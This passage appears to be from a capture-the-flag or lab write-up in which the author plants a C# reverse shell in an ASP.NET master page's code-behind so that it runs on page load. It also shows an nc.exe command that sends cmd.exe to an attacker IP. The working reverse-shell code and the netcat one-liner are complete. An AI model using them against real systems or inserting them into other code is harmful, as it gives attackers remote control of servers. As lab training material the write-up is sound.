I need to know what naming convention was used but the site.master.txt file comes to the rescue again with an `Inherits` statement `Inherits="MyNamespaceMaster.MyClassMaster"`.

So the basic structure of my code file will be:

```csharp
using System;
using System.Web.UI;

namespace MyNamespaceMaster
{
    public partial class MyClassMaster : MasterPage
    {
        protected void Page_Load(object sender, EventArgs e)
        {

        }
    }
}
```

#### Reverse Shell

I now need some C# reverse shell code to run on page load. This is fairly easy to come by. There are ones on [revshells.com](https://www.revshells.com/). The C# TCP Client shell is the easiest to adapt:


```csharp
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;


namespace ConnectBack
{
	public class Program
	{
		static StreamWriter streamWriter;

		public static void Main(string[] args)
		{
			using(TcpClient client = new TcpClient("192.168.45.236", 135))
			{
				using(Stream stream = client.GetStream())
				{
					using(StreamReader rdr = new StreamReader(stream))
					{
						streamWriter = new StreamWriter(stream);
						
						StringBuilder strInput = new StringBuilder();

						Process p = new Process();
						p.StartInfo.FileName = "cmd.exe";
						p.StartInfo.CreateNoWindow = true;
						p.StartInfo.UseShellExecute = false;
						p.StartInfo.RedirectStandardOutput = true;
						p.StartInfo.RedirectStandardInput = true;
						p.StartInfo.RedirectStandardError = true;
						p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
						p.Start();
						p.BeginOutputReadLine();

						while(true)
						{
							strInput.Append(rdr.ReadLine());
							//strInput.Append("\n");
							p.StandardInput.WriteLine(strInput);
							strInput.Remove(0, strInput.Length);
						}
					}
				}
			}
		}

		private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
	        {
	            StringBuilder strOutput = new StringBuilder();
	
	            if (!String.IsNullOrEmpty(outLine.Data))
	            {
	                try
	                {
	                    strOutput.Append(outLine.Data);
	                    streamWriter.WriteLine(strOutput);
	                    streamWriter.Flush();
	                }
	                catch (Exception err) { }
	            }
	        }
	}
}
```


To combine these code snippets I need to do a few things:

1. Keep imports from both `site.master.cs` and `revshell.cs`
2. Throw away the namespace and class declarations in `revshell.cs`. Replace with the ones from `site.master.cs`
3. Replace the `Main()` function declaration in `revshell.cs` with the `Page_Load()` function definition from `site.master.cs`

The final product looks like this:


```csharp
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;
using System.Web.UI;

namespace MyNamespaceMaster
{
    public partial class MyClassMaster : MasterPage
    {
        static StreamWriter streamWriter;

        protected void Page_Load(object sender, EventArgs e)
        {
		using(TcpClient client = new TcpClient("192.168.45.236", 135))
		{
			using(Stream stream = client.GetStream())
			{
				using(StreamReader rdr = new StreamReader(stream))
				{
					streamWriter = new StreamWriter(stream);
					
					StringBuilder strInput = new StringBuilder();

					Process p = new Process();
					p.StartInfo.FileName = "cmd.exe";
					p.StartInfo.CreateNoWindow = true;
					p.StartInfo.UseShellExecute = false;
					p.StartInfo.RedirectStandardOutput = true;
					p.StartInfo.RedirectStandardInput = true;
					p.StartInfo.RedirectStandardError = true;
					p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
					p.Start();
					p.BeginOutputReadLine();

					while(true)
					{
						strInput.Append(rdr.ReadLine());
						//strInput.Append("\n");
						p.StandardInput.WriteLine(strInput);
						strInput.Remove(0, strInput.Length);
					}
				}
			}
		}
	}

	private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
        {
            StringBuilder strOutput = new StringBuilder();

            if (!String.IsNullOrEmpty(outLine.Data))
            {
                try
                {
                    strOutput.Append(outLine.Data);
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
                }
                catch (Exception err) { }
            }
        }
    }
}
```


I then upload this file (as `site.master.cs`) and I am all set.

### Reverse Shell

At this point I simply reload the page and get a reverse shell:

<figure><figcaption><p>Shell session</p></figcaption></figure>

This shell is terrible as can be seen in the screenshot. What cannot be seen in the screenshot is the shell dies when the webpage load times out. Once the page times out I see this error message:

<figure><figcaption><p>Application load timeout</p></figcaption></figure>

To fix this, I copy over `nc.exe` and set up a more stable shell to port 445:

```shell-session
.\nc.exe -e cmd.exe 192.168.45.236 445
```

From here I can complete extraction of the flags.

## Privilege Escalation

N/A already running as `SYSTEM`.

## Learned

* **Time-Based SQLi:** This was a really handy example of actually performing a time-based SQLi attack
* **ASP.NET Master Pages:** I had never heard of master pages or ContentPlaceHolders. Honestly I have fairly limited ASP.NET experience. This was a good exposure to techniques for overwriting some C# in ASP.NET applications

### Difficulty Rating

* **Foothold 9/10:** It had time-based SQLi and a weird ASP.NET architecture before a shell could be obtained. There were also numerous false rabbit holes to go down. Very difficult
* **Privilege Escalation N/A**
